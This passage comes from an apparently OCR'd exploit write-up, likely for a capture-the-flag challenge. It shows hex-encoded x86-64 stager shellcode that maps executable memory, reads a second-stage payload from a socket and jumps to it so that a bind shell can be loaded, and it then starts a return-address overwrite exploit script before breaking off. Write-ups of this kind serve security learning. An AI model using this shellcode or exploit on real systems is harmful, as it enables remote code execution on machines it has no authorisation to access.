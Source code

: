   <span class="Special">&quot;</span><span class="Special">\xb8\x09\x00\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov eax, 0x00000006 (mmap)</span>
  <span class="Special">&quot;</span><span class="Special">\xbf\x00\x00\x00\x41</span><span class="Special">&quot;</span>     + <span class="Comment"># mov edi, 0x41000000 (addr)</span>
  <span class="Special">&quot;</span><span class="Special">\xbe\x00\x10\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov esi, 0x1000 (size)</span>
  <span class="Special">&quot;</span><span class="Special">\xba\x07\x00\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov rdx, 7 (prot)</span>
  <span class="Special">&quot;</span><span class="Special">\x41\xba\x32\x00\x00\x00</span><span class="Special">&quot;</span> + <span class="Comment"># mov r10, 0x32 (flags)</span>
  <span class="Special">&quot;</span><span class="Special">\x41\xb8\x00\x00\x00\x00</span><span class="Special">&quot;</span> + <span class="Comment"># mov r8, 0</span>
  <span class="Special">&quot;</span><span class="Special">\x41\xb9\x00\x00\x00\x00</span><span class="Special">&quot;</span> + <span class="Comment"># mov r9, 0</span>
  <span class="Special">&quot;</span><span class="Special">\x0f\x05</span><span class="Special">&quot;</span>                 + <span class="Comment"># syscall - mmap</span>

  <span class="Special">&quot;</span><span class="Special">\xbf\x98\xf8\xd0\xb0</span><span class="Special">&quot;</span>     + <span class="Comment"># mov edi, ptr to socket ^ 0xb0b0b0b0</span>
  <span class="Special">&quot;</span><span class="Special">\x81\xf7\xb0\xb0\xb0\xb0</span><span class="Special">&quot;</span> + <span class="Comment"># xor edi, 0xb0b0b0b0</span>
  <span class="Special">&quot;</span><span class="Special">\x48\x8b\x3f</span><span class="Special">&quot;</span>             + <span class="Comment"># mov edi, [edi]</span>

  <span class="Special">&quot;</span><span class="Special">\xb8\x00\x00\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov rax, 0</span>
  <span class="Special">&quot;</span><span class="Special">\xbe\x00\x00\x00\x41</span><span class="Special">&quot;</span>     + <span class="Comment"># mov esi, 0x41000000</span>
  <span class="Special">&quot;</span><span class="Special">\xba\x00\x20\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov edx, 0x2000</span>
  <span class="Special">&quot;</span><span class="Special">\x0f\x05</span><span class="Special">&quot;</span>                 + <span class="Comment"># syscall - read</span>
  <span class="Special">&quot;</span><span class="Special">\x56\xc3</span><span class="Special">&quot;</span>                 + <span class="Comment"># push esi / ret</span>
  <span class="Special">&quot;</span><span class="Special">\xc3</span><span class="Special">&quot;</span>                     + <span class="Comment"># ret</span>

  <span class="Special">&quot;</span><span class="Special">\xcd\x03</span><span class="Special">&quot;</span> <span class="Comment"># int 3</span>
))
</pre>

Basically, this calls mmap() to allocate a bunch of memory, reads the actual socket descriptor from a global varibale, reads data from the socket into the memory, then jumps to the start of it. Now I can use a bind-shell I found online without worrying about input restrictions!

<h2>The exploit</h2>

I don't think I chose the best possible way to attack this vulnerability. As I mentioned before, it required a small amount of bruteforcing to get offsets on the production server, which isn't the cleanest. Here's the exploit, in full, with comments. I've already explained the interesting bits:

<pre>
<span class="lnr">  1 </span><span class="Comment"># The base address of the array that overwrites code</span>
<span class="lnr">  2 </span><span class="Comment"># (Note: this can change based on the length that we sent! The rest doesn't appear to)</span>
<span class="lnr">  3 </span><span class="Type">BASE_VULN_ARRAY</span> = 0x7fffffffdf80-0x90
<span class="lnr">  4 </span>
<span class="lnr">  5 </span><span class="Comment"># The real target and my local target have different desired FP values</span>
<span class="lnr">  6 </span><span class="Type">IS_REAL_TARGET</span> = <span class="Constant">1</span>
<span class="lnr">  7 </span>
<span class="lnr">  8 </span><span class="Comment"># We want to edit the return address</span>
<span class="lnr">  9 </span><span class="Type">RETURN_ADDR</span>         = <span class="Constant">0x7fffffffdf88</span>  <span class="Comment"># Where the value we want to edit is</span>